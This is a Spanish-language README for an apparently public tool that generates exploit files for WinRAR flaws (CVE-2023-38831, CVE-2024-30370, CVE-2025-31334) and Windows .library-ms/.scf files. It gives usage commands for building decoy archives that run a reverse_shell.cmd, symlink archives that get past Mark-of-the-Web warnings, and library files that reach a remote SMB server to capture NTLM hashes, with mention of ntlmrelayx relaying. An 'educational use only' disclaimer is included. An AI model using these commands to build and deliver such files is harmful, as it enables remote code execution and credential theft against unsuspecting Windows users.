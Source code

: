 # 🧨 WinRAR & Windows Library Exploit Generator

**Generador de exploits para vulnerabilidades conocidas en WinRAR y Windows Library.**

> ⚠️ **Este proyecto es solo para uso educativo y entornos con autorización.**

---

## 🧩 CVEs Soportadas

| CVE / Técnica              | Descripción                                                                 |
|---------------------------|-----------------------------------------------------------------------------|
| **CVE-2023-38831**         | Ejecución remota (RCE) al hacer clic en un archivo señuelo en WinRAR       |
| **CVE-2024-30370**         | Bypass del Mark-of-the-Web usando symlink                                  |
| **CVE-2025-31334**         | WinRAR ejecuta un archivo real disfrazado sin advertencia                  |
| **Library `.library-ms`** | Windows abre conexión SMB externa al abrir archivo `.library-ms`           |
| **SCF (`.scf`)**           | Carga de íconos desde red SMB para capturar hashes                         |

---

## 🧰 Requisitos

- Python 3.7 o superior
- [`rar.exe`](https://www.win-rar.com/download.html) en el `PATH` (solo para `cve-dual`)
- Acceso con permisos de Administrador para crear symlinks en Windows

---

## ⚙️ Modo de uso general

```bash
python main.py [modo] [opciones]
```

---

## 📌 Modo: `cve-2023-38831`

### ▶️ Descripción:
Exploit que manipula un archivo `.zip` para que al abrir un archivo señuelo, se ejecute un script malicioso.

### 🧪 Ejemplo:

```bash
python main.py cve-2023-38831   --bait documento.pdf   --switch reverse_shell.cmd   --output exploit_38831.rar
```

---

## 📌 Modo: `cve-dual`

### ▶️ Descripción:
Crea un archivo `.rar` con un symlink y un ejecutable que evaden la advertencia MotW en Windows.

### 🧪 Ejemplo:

```bash
python main.py cve-dual   --payload payload.exe   --alt-name "seguro.exe"   --symlink-name "runme.exe"   --output exploit_dual.rar
```

---

## 📌 Modo: `library`

### ▶️ Descripción:
Crea un archivo `.library-ms` (y opcionalmente `.scf`) que se conecta a un servidor SMB remoto.

### 🧪 Ejemplo básico:

```bash
python main.py library   --file-name documentos   --ip 192.168.1.100   --type basic   --output library_exploit.zip
```

### Tipos soportados:
- `basic` → Exploit simple con `.library-ms`
- `advanced` → Exploit avanzado con metadata extendida
- `scf` → Combinación de `.library-ms` y `.scf` (carga de íconos remota)
- `--commands` → Muestra comandos sugeridos para `ntlmrelayx` y payloads PowerShell

---

## 📌 Modo: `interactive`

### ▶️ Descripción:
Guía paso a paso para generar exploits de tipo Library desde la consola.

### 🧪 Ejemplo:

```bash
python main.py interactive
```

---

## 🧪 Payload de prueba (opcional)

Para pruebas seguras, puedes dejar que el script cree un ejecutable falso:

```bash
python main.py cve-dual --payload dummy.exe
```



---

## 👨‍💻 Autor

Creado con fines de investigación ofensiva y defensa activa.

---
